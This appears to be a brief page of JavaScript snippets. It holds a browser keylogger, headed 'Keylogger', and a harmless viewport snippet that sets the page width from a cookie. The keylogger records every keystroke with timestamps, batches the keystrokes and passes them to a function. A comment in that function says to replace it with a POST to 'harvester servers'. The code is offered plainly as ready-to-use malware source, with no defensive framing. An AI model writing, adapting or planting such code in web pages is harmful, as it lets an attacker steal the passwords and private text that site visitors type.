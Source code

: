 ### Keylogger

``` js
(() => {
  let buffer = []
  let limit  = 1024
  let start  = Date.now()

  let timeout = null
  let delay   = 1500

  let feast = (payload) => {
    // Replace this with a POST to your harvester servers.
    console.log(payload)
  }

  let harvest = () => {
    let end     = Date.now()
    let payload = {c: buffer, s: start, e: end}

    feast(payload)

    buffer = []
    start  = Date.now()
  }

  document.addEventListener('keydown', (event) => {
    let key   = event.key || event.keyCode;
    let entry = {k: key, t: Date.now()}

    buffer.push(entry)
    if (buffer.length >= limit) { harvest() }

    clearTimeout(timeout)
    timeout = setTimeout(() => { harvest() }, delay);
  })
})()
```

### Viewport

Set viewport based on mobile or desktop

``` js
var viewMode = getCookie("view-mode");
if(viewMode == "desktop"){
    viewport.setAttribute('content', 'width=1024');
}else if (viewMode == "mobile"){
    viewport.setAttribute('content', 'width=device-width,initial-scale=1.0,maximum-scale=1.0,user-scalable=no');
}
```
